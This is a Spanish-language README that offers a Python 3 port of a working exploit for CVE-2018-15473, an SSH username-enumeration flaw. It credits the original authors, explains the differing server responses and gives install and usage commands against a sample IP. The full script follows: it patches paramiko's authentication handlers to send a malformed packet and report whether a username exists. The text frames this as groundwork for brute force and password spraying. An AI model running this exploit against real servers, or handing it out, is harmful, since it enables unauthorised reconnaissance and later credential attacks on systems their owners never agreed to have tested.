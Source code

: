 # CVE-2018-15473 – Enumeración de usuarios SSH

## Información general

Este documento recoge la explotación de la vulnerabilidad **CVE-2018-15473**, que afecta al servicio SSH y permite enumerar usuarios válidos en un sistema remoto.  
El fallo se debe a la manera en que el servidor responde de forma diferente cuando el usuario existe o no durante el proceso de autenticación.

## Créditos

El exploit original fue desarrollado por **Matthew Daley, Justin Gardner y Lee David Painter**.  
Nuestra versión está **adaptada a Python 3** para que pueda ejecutarse en sistemas actuales sin necesidad de instalar Python 2.

## Contexto de la vulnerabilidad

Cuando realizamos una autenticación SSH, el servidor responde de forma distinta si el usuario no existe que si existe pero la clave es inválida. Esta diferencia en el flujo de mensajes permite realizar un ataque de enumeración de usuarios de manera remota.

Este tipo de vulnerabilidad se aprovecha en fases tempranas de un pentest, ya que conocer usuarios válidos nos ayuda posteriormente a realizar ataques de fuerza bruta, password spraying o a buscar credenciales filtradas en fuentes públicas.

## Dependencias

Antes de ejecutar el exploit debemos instalar `paramiko` en Python 3:

```bash
pip install paramiko
```

---

## Uso

La sintaxis básica es la siguiente:

```bash
python3 ssh_enum.py <target> -p <port> <username>
```

Ejemplo:

```bash
python3 ssh_enum.py 192.168.1.74 -p 22 root
```

- Si el usuario existe → `[+] root es un usuario válido
    
- Si el usuario no existe → `[-] root no es un usuario válido

---

## Script adaptado a Python 3

```python
#!/usr/bin/env python3
# CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io
# Original credits: Matthew Daley, Justin Gardner, Lee David Painter
# Adaptado a Python3 para compatibilidad y uso actual

import argparse, logging, paramiko, socket, sys, os

class InvalidUsername(Exception):
    pass

# malicious function to malform packet
def add_boolean(*args, **kwargs):
    pass

# function that'll be overwritten to malform the packet
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, int(args.port)))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print('[!] Fallo en la conexión SSH')
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print(f"[-] {username} no es un usuario válido")
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print(f"[+] {username} es un usuario válido")

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity) - Adaptado a Python3 por Metahumo')
parser.add_argument('target', help="Dirección IP del sistema objetivo")
parser.add_argument('-p', '--port', default=22, help="Introduce puerto SSH")
parser.add_argument('username', help="Usuario que se quiere validar")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)
```

---


---

